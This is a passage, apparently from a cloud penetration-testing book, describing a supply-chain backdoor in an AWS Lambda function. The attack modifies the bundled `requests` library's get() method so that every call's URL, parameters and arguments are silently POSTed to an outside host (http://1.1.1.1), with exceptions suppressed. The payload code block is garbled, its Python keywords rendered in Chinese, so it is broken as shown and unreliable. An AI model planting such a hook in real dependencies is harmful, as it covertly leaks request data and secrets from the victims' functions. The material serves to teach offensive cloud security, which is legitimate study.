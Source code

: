 An example Lambda function that uses an included requests library

This function is short, so it would be obvious to just about anyone if the code was modified directly during our attack, but because it is importing the `requests` library, and the `requests` library source code is right there, as well, that will be our target. We can see that on line 4, the `requests.get()` method is being invoked. If we go looking around the source code of the `requests` library, we can find the `requests.get()` method in the `api.py` file, on line 63 (at the time of writing this, at least):

![](img/292e3758-55b4-461a-b11a-ba9f58338ab2.png)

The source code for the requests.get() method

We already know that this method is invoked every time the Lambda function will run, so all we need to do is modify it directly, rather than modifying the file that invokes it (`lambda_function.py`). Our payload needs to be a little different this time, because the entire `requests` library is not directly imported into each file within the `requests` library, so we have to use the `"request"` method, rather than `requests.post()`. Our payload will look like the following:

```

尝试：

数据= {'url'：url，'params'：params，** kwargs}

请求（'POST'，'http://1.1.1.1'，json = data，timeout = 0.01）

除外：

通过

```
